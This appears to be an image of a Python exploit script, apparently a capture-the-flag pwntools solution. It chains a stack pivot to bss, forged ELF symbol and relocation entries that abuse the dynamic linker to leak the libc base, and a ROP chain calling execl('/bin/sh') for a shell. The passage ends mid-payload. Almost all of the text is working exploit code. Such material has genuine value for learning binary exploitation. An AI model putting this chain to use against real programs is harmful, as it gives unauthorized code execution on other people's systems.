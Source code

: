 ```python
    strtab = 0x400430
    symtab = 0x4003d0
    jmprel = 0x4004e0

    # Payload 1: re-read to pivot stack to bss section
    read_to_bss = flat(b'0' * 0x80, bss, read_raw)
    t.send(read_to_bss)
    delay()

    # Payload 2: fake Elf64_Sym and Elf64_Rela to misuse dl_resolve,
    # store write@libc on bss and then write it to leak libc,
    # then re-read to perform ret2libc
    SYM_OFFSET = 0x18
    SYM_INDEX  = (bss - 0x80 + SYM_OFFSET - symtab) / 0x18
    REL_OFFSET = 0x38
    REL_INDEX  = (bss - 0x80 + REL_OFFSET - jmprel) / 0x18
    fake_sym = flat({
        0: b'write', # symbol name

        # Elf64_Sym
        SYM_OFFSET: [
            bss - 0x80 - strtab, # st_name, offset from strtab to "write"
            # rest members of Elf64_Sym is 0
        ],

        # Elf64_Rela
        REL_OFFSET: [
            bss - 8,                    # r_offset, where to write write@libc
            7 | (int(SYM_INDEX) << 32), # r_info
            # r_append in Elf64_Rela is 0
        ],

        # to re-read, reset rbp is needed. do not impact read@libc stack frame
        0x80: bss - 0x100,
        # rop chain
        0x88: [
            dl_resolve,
            int(REL_INDEX),
            read_raw,
        ],
    }, filler=b'\0')
    assert test_offsets(SYM_INDEX, REL_INDEX), 'At least one offset is wrong'
    t.send(fake_sym)
    try:
        t.recvuntil(b'write'.ljust(8, b'\0')) # align
    except EOFError:
        # NOTE: patchelf'ed elf has different strtab and symtab, which may lead to crash
        failure('Failed to leak libc!')
        return
    libc_base = u64(t.recv(0x78)[-8:]) - libc.symbols['write']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base
    delay()

    # Payload 3: call execl("/bin/sh", "/bin/sh", NULL) to get a shell
    gadgets = ROP(libc)
    rdx_set_0_addr = libc_base + 0x116114 # xor edx, edx; call rax
    sh_addr = next(libc.search(b'/bin/sh'))
    call_execl = flat(b'\0'.ljust(0x88, b'\0'),
                      gadgets.rax.address, libc.symbols['execl'],
                      gadgets.rdi.address, sh_addr,
                      gadgets.rsi.address, sh_addr,
                      rdx_set_0_addr)
```